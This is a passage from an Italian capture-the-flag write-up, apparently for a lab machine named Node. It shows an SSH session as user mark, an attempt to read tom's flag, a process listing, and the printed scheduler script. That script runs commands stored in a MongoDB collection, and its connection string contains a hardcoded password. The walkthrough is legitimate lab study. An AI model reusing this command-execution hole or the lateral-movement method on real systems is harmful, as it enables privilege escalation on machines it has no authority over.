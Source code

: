 ```bash
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Wed Sep 27 02:33:14 2017 from 10.10.14.3
mark@node:~$ id
uid=1001(mark) gid=1001(mark) groups=1001(mark)
mark@node:~$
```

Funziona !
Prediamo la flag users

```bash
mark@node:/home$ ls
frank  mark  tom
mark@node:/home$ cd tom
mark@node:/home/tom$ ls
user.txt
mark@node:/home/tom$ cat user.txt
cat: user.txt: Permission denied

```

Dobbiamo fare lateral moviment,

```bash
mark@node:/home/tom$ ps -aux

...<snip>..
tom 1253  0.0  6.1 1020892 46940 ?Ssl  06:32   0:03 /usr/bin/node/var/www/myplace/app.js
tom 1255  0.0  5.8 1008568 44520 ?Ssl  06:32   0:04 
/usr/bin/node/var/scheduler/app.js
...<snip>

```

Troviamo con 2 processi che girano come tom

- /var/www/myplace/app.js 
- /var/scheduler/app.js:

var/www/myplace/app.js  è la webapp con cui mi sono già interfacciato, quindi passerò a /var/scheduler/app.js:

```bash
mark@node:/var/scheduler$ cat app.js
const exec        = require('child_process').exec;
const MongoClient = require('mongodb').MongoClient;
const ObjectID    = require('mongodb').ObjectID;
const url         = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/scheduler?authMechanism=DEFAULT&authSource=scheduler';

MongoClient.connect(url, function(error, db) {
  if (error || !db) {
    console.log('[!] Failed to connect to mongodb');
    return;
  }

  setInterval(function () {
    db.collection('tasks').find().toArray(function (error, docs) {
      if (!error && docs) {
        docs.forEach(function (doc) {
          if (doc) {
            console.log('Executing task ' + doc._id + '...');
            exec(doc.cmd);
```